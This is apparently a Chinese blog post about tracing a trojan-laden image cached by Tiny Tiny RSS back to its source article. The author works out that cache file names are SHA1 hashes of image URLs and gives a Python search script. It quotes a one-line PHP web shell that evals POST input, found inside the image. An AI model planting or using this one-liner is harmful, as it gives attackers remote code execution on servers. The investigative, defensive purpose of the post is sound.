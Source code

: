 ```yaml
---
title: ttrss缓存图片与文章关联
date: 2020-03-15T23:34:01+08:00
categories: [琐碎]
---
```


# 背景

腾讯云发来通知说检测到服务器上有木马，通过路径得知这个木马文件是ttrss缓存的一张图片（开启rss源的媒体缓存选项后，ttrss会将图片缓存到服务器上）。图片是这个，

![](./trojan.png)

用文本编辑器打开后，会发现有这一段，经典的一句话木马语句，不过看这条语句在图片中间，不清楚是否真的能用。

```php
<?php eval($_POST("cmd"));?>
```

接下来就想找找这个图片是哪篇文章中的。

# 寻找

ttrss缓存的图片名称是个hash值，不能直接与文章关联起来。一个想法是将整个ttrss数据库dump出来，遍历所有文章的html，将hash值给找出来。

使用`pd_dump`命令dump ttrss的数据库，直接遍历查找，并未找到这张图片的hash值。

找了篇使用媒体缓存的文章仔细研究了下，发现文章html中的图片链接还是原始链接，但ttrss网站页面中看到的则是含有hash的路径，因此猜测ttrss是在渲染的时候在前端进行路径替换的。图片的名称是个hash，估计这个hash就是根据源链接计算出的hash值。找了个例子试了下，果然是对的。图片的hash值名称就是图片原始链接的sha1值。

举个例子说明下，`https://www.baidu.com/1234.png`是一篇文章中的一个图片链接，这篇文章所在的rss源设置了图片缓存，那么这张缓存下来的图片文件的名称是`https://www.baidu.com/1234.png`这个链接的sha1值，即`ed6e98935a2ada086ddc334166cb2eb1a86e3ee1`。

知道了这个原理，就可以修改程序了。代码如下，简单粗暴。

```python
import re
import hashlib
src = re.compile("src=\"(.+?)\"")

file = open("dump.sql", encoding="utf8")
for line in file:
    v = src.findall(line)
    for item in v:
        res = hashlib.sha1(item.encode()).hexdigest()
        if res == "46e4d516a9c3cc27ce4051869f63c22e93061ee3":
            print(item, line)
            break
```

运行程序后，很快就找到了这个图片对应的文章，是某个论坛帖子中某个发言用户的头像。我也是服😢。

# 参考文章：

1. [Postgresql备份与还原命令pg_dump](https://blog.csdn.net/timo1160139211/article/details/78171272)。
